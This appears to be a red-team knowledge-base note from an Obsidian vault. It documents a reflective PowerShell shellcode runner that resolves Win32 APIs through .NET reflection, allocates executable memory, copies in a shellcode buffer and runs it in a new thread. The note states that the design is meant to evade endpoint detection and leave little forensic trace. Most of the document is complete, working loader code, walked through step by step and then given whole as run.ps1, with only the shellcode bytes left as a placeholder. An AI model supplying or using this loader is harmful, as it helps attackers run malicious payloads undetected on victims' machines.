 ```yaml
---
aliases:
  - run.ps1
tags:
  - payload
primary categories:
  - "[[Development]]"
  - "[[Penetration Test]]"
  - "[[Red Team]]"
secondary categories:
  - "[[PowerShell]]"
  - "[[Weaponization]]"
  - "[[Payload Engineering]]"
type: Payload
---
```

# [[Reflective PowerShell Shellcode Runner]]

***

## Overview

This reflective PowerShell shellcode runner template provides a stealthier alternative to traditional in-memory payload delivery by avoiding the use of disk-backed artifacts. A common method of executing unmanaged code in PowerShell is through the `Add-Type` cmdlet, which compiles and stores .NET assemblies to disk — a behavior that can trigger detection from endpoint monitoring tools. In contrast, this template performs all operations entirely in memory, eliminating the reliance on `Add-Type` and minimizing forensic evidence. This payload template is largely based on [`run.ps1`](https://gist.github.com/braaaax/41789bad5d07b8ba236299047a774ffa) by [_braaaax_](https://github.com/braaaax).

The payload follows a three-step reflective injection process, all without relying on `Add-Type` or writing any assemblies to disk:

### 1. Dynamic Win32 API Resolution

Using .NET reflection, the script locates function pointers for native Win32 APIs like `VirtualAlloc`, `CreateThread`, and `WaitForSingleObject` by querying loaded modules and calling `GetProcAddress`:

```powershell
# Function to dynamically resolve the address of a Win32 API function in memory
function LookupFunc {
        Param ($moduleName, $functionName)

		# Get the 'UnsafeNativeMethods' type from the loaded System.dll assembly
        $assem = ([AppDomain]::CurrentDomain.GetAssemblies() |
				    Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') }
				    ).GetType('Microsoft.Win32.UnsafeNativeMethods')
	    
	    $tmp=@()

		# Filter out the 'GetProcAddress' method
	    $assem.GetMethods() | ForEach-Object {
		    If($_.Name -eq "GetProcAddress") {$tmp+=$_}
		}

		# Invoke GetProcAddress(GetModuleHandle($moduleName), $functionName)
        return $tmp[0].Invoke($null, @(($assem.GetMethod('GetModuleHandle')).Invoke($null, @($moduleName)), $functionName))
}
```

### 2. Delegate Construction for API Invocation

Since .NET requires strong typing for API calls, the script uses `System.Reflection.Emit` to define method signatures at runtime. This allows for calling unmanaged APIs using the correct parameter and return types:

```powershell
# Function to dynamically generate a delegate type for a given API function signature
function getDelegateType {
        Param (
            [Parameter(Position = 0, Mandatory = $True)] [Type[]] $func,
            [Parameter(Position = 1)] [Type] $delType = [Void]
        )

		# Define a dynamic in-memory assembly to hold the delegate type
        $type = [AppDomain]::CurrentDomain.DefineDynamicAssembly(
			        (New-Object System.Reflection.AssemblyName('ReflectedDelegate')),
			        [System.Reflection.Emit.AssemblyBuilderAccess]::Run
			        ).DefineDynamicModule('InMemoryModule', $false).DefineType(
				        'MyDelegateType', 
				        'Class, Public, Sealed, AnsiClass, AutoClass',
				        [System.MulticastDelegate]
				    )

		# Define the constructor required for a delegate type
		$type.DefineConstructor('RTSpecialName, HideBySig, Public',
								[System.Reflection.CallingConventions]::Standard,
								$func).SetImplementationFlags('Runtime, Managed')

		# Define the 'Invoke' method for the delegate (used to call the function)
		$type.DefineMethod('Invoke',
							'Public, HideBySig, NewSlot, Virtual',
							$delType,
							$func).SetImplementationFlags('Runtime, Managed')

		# Create and return the delegate type
        return $type.CreateType()
}
```

### 3. Allocate Memory, Inject Shellcode, and Invoke Execution

With the shellcode hard coded in a byte array, the script allocates *RWX* memory, copies the payload into it, and creates a new thread to execute it. The entire process is conducted using delegates and Win32 APIs resolved in-memory:

```powershell
# Replace this with actual shellcode bytes
[Byte[]] $buf = <shellcode-buffer-byte-array>

# Allocate memory
$lpMem = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer(
	(LookupFunc kernel32.dll VirtualAlloc),
	(getDelegateType @([IntPtr], [IntPtr], [UInt32], [UInt32]) ([IntPtr]))
	).Invoke([IntPtr]::Zero, $buf.length, 0x3000, 0x40)

# Copy shellcode into allocated memory
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $lpMem, $buf.length)

# Execute shellcode in new thread
$hThread = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer(
	(LookupFunc kernel32.dll CreateThread), 
	(getDelegateType @([IntPtr], [UInt32], [IntPtr], [IntPtr], [UInt32], [IntPtr]) ([IntPtr]))
	).Invoke([IntPtr]::Zero,0,$lpMem,[IntPtr]::Zero,0,[IntPtr]::Zero)

# Wait for thread to complete
[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll WaitForSingleObject), (getDelegateType @([IntPtr], [Int32]) ([Int]))).Invoke($hThread, 0xFFFFFFFF)
```

## File Contents

### `run.ps1`

```powershell
function LookupFunc {
        Param ($moduleName, $functionName)

        $assem = ([AppDomain]::CurrentDomain.GetAssemblies() |
				    Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') }
				    ).GetType('Microsoft.Win32.UnsafeNativeMethods')
	    
	    $tmp=@()

	    $assem.GetMethods() | ForEach-Object {
		    If($_.Name -eq "GetProcAddress") {$tmp+=$_}
		}

        return $tmp[0].Invoke($null, @(($assem.GetMethod('GetModuleHandle')).Invoke($null, @($moduleName)), $functionName))
}

function getDelegateType {
        Param (
            [Parameter(Position = 0, Mandatory = $True)] [Type[]] $func,
            [Parameter(Position = 1)] [Type] $delType = [Void]
        )

        $type = [AppDomain]::CurrentDomain.DefineDynamicAssembly(
			        (New-Object System.Reflection.AssemblyName('ReflectedDelegate')),
			        [System.Reflection.Emit.AssemblyBuilderAccess]::Run
			        ).DefineDynamicModule('InMemoryModule', $false).DefineType(
				        'MyDelegateType', 
				        'Class, Public, Sealed, AnsiClass, AutoClass',
				        [System.MulticastDelegate]
				    )

		$type.DefineConstructor('RTSpecialName, HideBySig, Public',
								[System.Reflection.CallingConventions]::Standard,
								$func).SetImplementationFlags('Runtime, Managed')

		$type.DefineMethod('Invoke',
							'Public, HideBySig, NewSlot, Virtual',
							$delType,
							$func).SetImplementationFlags('Runtime, Managed')

        return $type.CreateType()
}

[Byte[]] $buf = <shellcode-buffer-byte-array>

$lpMem = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer(
	(LookupFunc kernel32.dll VirtualAlloc),
	(getDelegateType @([IntPtr], [IntPtr], [UInt32], [UInt32]) ([IntPtr]))
	).Invoke([IntPtr]::Zero, $buf.length, 0x3000, 0x40)

[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $lpMem, $buf.length)

$hThread = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer(
	(LookupFunc kernel32.dll CreateThread), 
	(getDelegateType @([IntPtr], [UInt32], [IntPtr], [IntPtr], [UInt32], [IntPtr]) ([IntPtr]))
	).Invoke([IntPtr]::Zero,0,$lpMem,[IntPtr]::Zero,0,[IntPtr]::Zero)

[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll WaitForSingleObject), (getDelegateType @([IntPtr], [Int32]) ([Int]))).Invoke($hThread, 0xFFFFFFFF)
```

***

## Resources

| Hyperlink                                                                            | Info                                               |
| ------------------------------------------------------------------------------------ | -------------------------------------------------- |
| [run.ps1, braaaax](https://gist.github.com/braaaax/41789bad5d07b8ba236299047a774ffa) | GitHub Gist page for reflective PowerShell payload |

***

*Created Date*: <%+tp.file.creation_date("MMMM Do YYYY (HH:mm a)")%>  
*Last Modified Date*: <%+tp.file.last_modified_date("MMMM Do YYYY (HH:mm a)")%>
